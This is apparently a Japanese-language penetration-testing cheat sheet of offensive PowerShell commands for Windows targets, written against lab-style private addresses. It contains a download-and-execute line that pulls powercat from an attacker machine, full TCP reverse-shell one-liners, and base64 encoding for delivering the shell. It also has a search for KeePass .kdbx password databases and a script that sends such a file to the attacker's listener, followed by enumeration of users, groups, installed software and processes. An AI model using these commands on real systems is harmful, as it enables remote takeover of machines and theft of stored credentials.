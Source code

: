 ## 現在の実行環境がコマンドプロンプトかPowerShellかをチェック
```.ps1
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

## 攻撃者のマシンからリバースシェルのスクリプトをダウンロードして実行する
```.ps1
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c <attacker IP> -p 4444 -e powershell
```

## Kali上でPowershell用のリバースシェルを生成してbase64エンコードのまま送信後、デコード・実行させる

1. パワーシェルをKali上で起動
```
pwsh
```

2. Powershellのリバースシェル用コマンドをText変数に入れる
```.ps1
$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
```

3. 
```.ps1
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
```

4. エンコードする
```.ps1
$EncodedText =[Convert]::ToBase64String($Bytes)
```

5. base64エンコードした文字列をターミナルに出力する
```.ps1
$EncodedText
```

6. ターゲット上でエンコードしたPowershellのリバースシェルコマンドをデコードさせて実行する
```.ps1
powershell%20-enc%20<先ほどの出力された$EncodedTextの内容>
```

7. Windowsターゲット上で、C:\配下の全ファイルを列挙。このケースでは.kdbxの拡張子のファイルを列挙
```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

8. Attackerマシンからpowercatを取得して実行し、リバースシェルを取る
```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.243/powercat.ps1');powercat -c 192.168.45.243 -p 4444 -e cmd"
```

9. 単純なリバースシェルコマンドで、コマンドプロンプトから実行させると動くのを確認済み
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.45.243',4444);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

10. Kali側でncを使ってデータをレシーブ状態にさせて、データをPowershell側から送信する。確認済み
```
$content = Get-Content 'Database.kdbx' -Raw
$socket = New-Object System.Net.Sockets.TcpClient('192.168.45.243', 9999)
$stream = $socket.GetStream()
$writer = New-Object System.IO.StreamWriter($stream)
$writer.Write($content)
$writer.Flush()
$writer.Close()
$socket.Close()
```

11. Windows環境のローカルユーザを列挙する
```
Get-LocalUser
```

12. paulがローカルのどのグループのメンバーであるかを確認する
```
net user paul
```

13. ホスト上の既存のグループを列挙する
```
Get-LocalGroup
```

14. adminteamというローカルグループのメンバーを確認する
```
Get-LocalGroupMember adminteam
```

15. インストールされているすべてのアプリケーションを列挙する
```
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

16. 実行中のアプリケーションを一覧表示する
```
Get-Process
```